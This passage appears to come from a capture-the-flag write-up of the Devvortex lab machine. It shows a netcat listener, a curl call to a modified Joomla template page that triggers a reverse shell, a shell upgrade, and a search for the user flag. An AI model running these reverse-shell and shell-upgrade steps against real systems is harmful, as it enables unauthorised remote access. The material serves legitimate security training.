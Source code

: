 Finally, we need to start a listener on our attack host (Figure 8.5), call the modified page (Figure 8.6), and catch the reverse shell (Figure 8.7).

```bash
# Starting a listener
nc -lvnp 1337
# Calling the modified file
curl http://dev.devvortex.htb/templates/cassiopeia/error.php
```

<figure><img src="../../.gitbook/assets/devvortex_revshell.png" alt=""><figcaption><p>Figure 8: Catching the reverse shell.</p></figcaption></figure>

## Privilege Escalation

### Lateral Movement

After [upgrading our shell](../../tools/shells/upgrade.md#script-python), we see that the `user.txt` flag is located under `logan`'s directory.

```bash
# Upgrading the shell
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ ^Z
[1]+  Stopped                 nc -lvnp 1337

┌──(x7331㉿CSpanias)-[~]
└─$ echo $TERM && stty size
xterm-256color
54 209

┌──(x7331㉿CSpanias)-[~]
└─$ stty raw -echo;fg
nc -lvnp 1337

<vvortex.htb/templates/cassiopeia$ stty rows 54 cols 209
<iopeia$ export TERM=xterm

# Searching for the user flag
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ ls -l /home/logan
total 4
-rw-r----- 1 root logan 33 Apr 30 05:02 user.txt
```


[^1]: Content Management System
[^2]: Remote Code Execution
[^3]: Database Management System
[^4]: Virtual Host
[^5]: Content Management System
[^6]: Living off the Land
[^7]: Proof of Concept
[^8]: Content Management System
[^9]: Proof of Concept
[^10]: Remote Code Execution
[^11]: Database Management System
[^12]: Elevation of Privileges